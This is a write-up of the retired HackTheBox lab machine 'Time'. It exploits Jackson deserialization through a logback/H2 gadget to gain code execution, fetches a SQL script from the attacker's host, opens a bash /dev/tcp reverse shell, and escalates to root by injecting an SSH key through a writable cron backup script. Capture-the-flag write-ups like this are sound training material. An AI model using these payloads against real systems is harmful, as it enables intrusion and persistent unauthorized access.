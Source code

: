Title:HTB: Time
Date: 04-07-2021 19:20
category:security
tags:security, boot2root, HTB, linux, jackson, deserialization
meta:security, boot2root, HTB, linux, jackson, deserialization

<img class="align-left" src="/media/2021.04/time_card.png" alt="Time Card" width="262">

This is a writeup about a retired HacktheBox machine:
[Time](https://www.hackthebox.com/home/machines/profile/286) publish on
October 24, 2020 by
[egotisticalSW](https://www.hackthebox.com/home/users/profile/94858) and
[felamos ](https://www.hackthebox.com/home/users/profile/27390).
This box is rated as a medium box. It implies a hard foothold using Jackson and
some Google fu. The root part is quit fast as there is a writable bash script
running regularly as root.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.91 scan initiated Wed Nov  11 12:02:12 2020 as: nmap -sS -p- -oN nmap 10.129.29.179
    Nmap scan report for 10.129.29.179
    Host is up (0.012s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Wed Nov  11 12:02:28 2020 -- 1 IP address (1 host up) scanned in 15.91 seconds

## Web

The website is an online tool to beautify and validate json data.

![time homepage](/media/2021.04/time_01.png){: .image-process-article-image}

When we try to validate "garbage" input. We got an error message "Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'qe': was expecting ('true', 'false' or 'null')"

We see that the website is using the Jackson library.

As we want a RCE we start a few Google search with "jackson fasterxml rce".
The results are from 2017:

* https://medium.com/@swapneildash/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038
* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062


We continue our searches and finally get to "jackson gadget". Which lead us to a
more recent [article about Jackson gadgets](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).


We send the following request (we just URL encoded the data parameter)

    :::text
    POST / HTTP/1.1
    Host: 10.129.29.179
    User-Agent: Mozilla/4.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 174
    Origin: http://10.129.29.179
    Connection: close
    Referer: http://10.129.29.179/
    Upgrade-Insecure-Requests: 1

    mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource",+{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT+FROM+'http://10.10.14.25:8000/inject.sql'"}]

Our inject.sql file looks like the following:

    :::text
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
            String[] command = {"bash", "-c", cmd};
            java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
            return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('<payload>')


We start with a first simple payload `wget http://10.10.14.25:8000/rce`
as we see the query in our python server log we know that we have RCE

We change the payload to get a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
`bash -i >& /dev/tcp/10.10.14.25/4242 0>&1`

This allows us to get a shell and grab the user flag.

    :::text
    kali@kali:/tmp$ nc -l -p4242
    bash: cannot set terminal process group (958): Inappropriate ioctl for device
    bash: no job control in this shell
    pericles@time:/var/www/html$ cat /home/pericles/user.txt
    cat /home/pericles/user.txt
    74555f76d2e8013945afd9233ca2f219

# Root

We start by checking our privileges. We are not part of any specific group. As we don't know our password we cannot use sudo.

    :::text
    pericles@time:/var/www/html$ id
    id
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)

As we want to transfer file and have a better shell, we "upload" our SSH key:

    :::text
    mkdir /home/pericles/.ssh
    echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/ElCFvS<SNIP>' > /home/pericles/.ssh/authorized_keys

We upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) using scp and run it.
We discover that we have access to the /usr/bin/timer_backup.sh file (read and write)

    :::text
    [+] .sh files in path
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
    /usr/bin/gettext.sh
    You own the script: /usr/bin/timer_backup.sh
    /usr/bin/rescan-scsi-bus.sh

We take a look at the file. It seems that root is regulary making a backup of the website.


    :::text
    pericles@time:~$ cat /usr/bin/timer_backup.sh
    #!/bin/bash
    zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip


We modify the file using Vim and add the following lines

    :::text
    mkdir /root/.ssh
    echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/ElCFv<SNIP>' > /root/.ssh/authorized_keys

Waiting a few seconds and connecting back to the box with the root user allow us to get a shell and grab the flag.


    :::text
    kali@kali:~$ ssh root@10.129.29.179
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

    <SNIP>

    Last login: Fri Oct 23 10:05:26 2020
    root@time:~# cat root.txt
    50fb5aa6e01ec64a77c48d42cf533088

# Wrapping up

The root part was easy, the jackson exploitation was harder and mostly some Google fu.
Nonetheless an interesting box to play with Java Deserialization vulnerabilities.


